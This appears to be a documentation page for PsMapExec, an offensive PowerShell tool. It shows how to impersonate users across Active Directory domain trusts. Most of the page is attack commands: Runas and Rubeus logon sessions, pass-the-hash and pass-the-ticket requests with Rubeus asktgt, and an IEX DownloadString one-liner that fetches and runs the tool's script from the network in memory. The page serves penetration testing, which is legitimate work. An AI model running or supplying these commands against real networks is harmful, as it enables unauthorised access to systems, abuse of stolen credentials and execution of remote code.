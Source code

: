 # Cross Domain Usage

PsMapExec has the ability to impersonate users on one domain to access resources on a different domain. 

When accessing resources across domain and impersonating a user we need two parameters:

1) UserDomain: The domain of the user we are impersonating

2) Domain: The target domain where we intended to access resources

        PsMapExec -Targets All -Domain child.security.local -UserDomain security.local -username Moe -Password Password -method [Method] -Command [Command]

In the command example shown above we are getting all computers in the domain child.security.local and impersonating the user Moe whose account resides in the security.local domain. 

As security.local is a parent to the child domain child.security.local there is a trust between them and the user moe can access resources in the child domain.

## CurrentUser

Alternatively Rubeus or Runas.exe can be used to create a new logon session for a user in an alternative domain and the -CurrentUser switch can be applied to work in the current logon session context.

Simply put, Runas.exe is the most straightforward way of acheiving this if you have a password for the user you wish to impersonate. Otherwise, Rubeus will need to be used if you need to use a Hash or a Kerberos ticket.

##### Create Logon session

### Runas.exe

    Runas.exe /user:[Domain]\[User] Powershell.exe

### Rubeus

    Rubeus.exe createnetonly /program:c:\windows\system32\cmd.exe /show

### AskTGT and inject in new session

    Rubeus.exe asktgt /user:[User] /domain:[Domain] /hash:[Hash] or /password:[Password] /ptt

### Invoke-Rubeus

    Invoke-Rubeus -Command "createnetonly /program:c:\windows\system32\cmd.exe /show"

### AskTGT and inject in new session

    Invoke-Rubeus -Command "asktgt /user:[User] /domain:[Domain] /hash:[Hash] or /password:[Password] /ptt"

Then load PsMapExec into the new logon session and run with -CurrentUser.

# Load into memory

    IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")# Execute
    PsMapExec -CurrentUser -Targets All -Domain [Domain] -Method [Method] -Command [Command] 
